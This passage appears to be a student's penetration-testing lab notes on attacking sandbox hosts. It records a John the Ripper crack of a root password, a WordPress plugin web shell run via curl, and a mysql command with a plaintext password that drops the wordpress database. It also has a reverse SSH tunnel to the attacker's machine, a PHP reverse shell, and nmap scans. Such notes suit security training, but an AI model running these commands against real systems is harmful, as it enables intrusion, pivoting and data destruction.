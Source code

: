 - john --wordlist=/usr/share/wordlists/rockyou.txt root_pass.txt
```
0g 0:00:00:40 1.91% (ETA: 08:31:38) 0g/s 8010p/s 8010c/s 8010C/s 99alero..8147020
0g 0:00:00:41 1.96% (ETA: 08:31:39) 0g/s 8009p/s 8009c/s 8009C/s xkirstyx..werehere
0g 0:00:06:54 21.85% (ETA: 08:28:21) 0g/s 8051p/s 8051c/s 8051C/s td6053011..tctwins
0g 0:00:07:37 24.31% (ETA: 08:28:06) 0g/s 8035p/s 8035c/s 8035C/s smsm2536..smrmary15
0g 0:00:16:20 53.95% (ETA: 08:27:03) 0g/s 7964p/s 7964c/s 7964C/s gouch99..gottagun
0g 0:00:30:17 DONE (2021-11-14 08:27) 0g/s 7893p/s 7893c/s 7893C/s !!!playboy!!!7..*7¡Vamos!
```

- 
    
## Difficulties
- Can't run the uploaded plugin. Got 404 with `http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami`
  - Need to revert the sandbox.
    - To revert 10.11.1.250, please revert 10.4.4.10 and 10.5.5.11 in the "Sandbox" tab in the Control Panel.
  - The curl command missing `.php` after plugin-shell. The correct command:
    - `curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami`
- can't find password for `ssh root@sandbox.local`
- can't find mysql credentials for mysql in /var/log/apache2/access.log
  - `mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb -h 10.5.5.11 -e 'DROP DATABASE wordpress;'`
- ssh connection refused
```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.215
Warning: Identity file /tmp/keys/id_rsa not accessible: No such file or directory.
ssh: connect to host 192.168.119.215 port 22: Connection refused
```
  - Fix: start ssh service
    - `service ssh start`
    - `netstat -tupln | grep -i ssh`

## Thoughts
- use PHP reverse shell `/usr/share/webshells/php/
php-reverse-shell.php`
- For the mysql database credential enum, can search `mysql` with grep.

---
---

### System IP: 10.5.5.11

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.5.5.11         | **TCP**: 22, 3306\
**UDP**: 1434,161

**Nmap Scan Results:**
- `sudo nmap -sC -sS -Pn -p0-65535 10.5.5.11` 
  - port 22 is open - ssh
  - port 3306 is open - mysql
  